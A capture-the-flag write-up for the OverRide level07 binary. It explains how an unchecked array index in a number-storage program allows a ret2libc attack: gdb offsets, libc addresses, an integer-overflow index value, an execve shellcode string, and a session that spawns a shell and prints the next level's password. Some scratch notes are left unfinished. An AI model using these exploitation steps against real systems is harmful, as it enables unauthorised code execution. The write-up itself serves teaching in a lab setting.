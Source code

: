 # Context

The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some limitations: 

* First of all, concerning the registration of numbers in the dataset:
    - `index % 3` must not be equal to 0
    - `number >> 24` must not be equal to 183 

* The program has been compiled with the `-fstack-protector` flag, meaning that the return address of the program is protected with a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries). 

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 

# lead

we are going to exploit the flaw in the store_number() function. Since we can write on the stack with the offset of our choice, we can change the address stored in EIP without overwriting the canary stack.

We could store a shellcode on the stack using the store_number() function, but it would be a bit tedious. Instead, we'll do a ret2libc attack, as we did for the level04.

# Exploit

First of all, let's find the address of the buffer. We know it is located at 0x24(%esp) in the main() function. Using gdb, we get the address of ESP (0xffffd520) and then calculate the effective address of the buffer: 0xffffd544.

We must then find the address of EIP in order to calculate its offset from the buffer. To do so, we just need to set a breakpoint anywhere in the main() function using gdb, and enter the command `ìnfo frame`:
```
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c
```
It is the address contained in EIP in the saved registers section that we want: 0xffffd70c. We just have to subtract this address from the buffer address to find the offset:
```
(gdb) p 0xffffd70c - 0xffffd544
$1 = 456
```
Since we record unsigned int, we have to divide this value by 4 to find the right index. So we want to write from index 114.






Finally, we can find the memory addresses of the system() and exit() functions, as well as the string "/bin/sh", as we did in level04:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```




"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"



index N     : "\x31\xc9\xf7\xe1"
index N+1   : "\xb0\x0b" + jump
index N+3   : "\x51\x68\x2f\x2f"
index N+4   : "\x73\x68" + jump
index N+6   : "\x68\x2f\x62\x69"
index N+7   : "\x6e\x89" + jump
index N+9   : "\xe3\xcd\x80"



buf:                    0xffffd544

eip in read_number():   0x8048930

0x8048930 - 0xffffd544 = -4160441364 (decimal value)
-4160441364 / 4 = -1040110341


buf at index 189: 0xffffd80d





```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115   
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

We can now reach the next level with the command `su level08` and fill in the flag found as a password.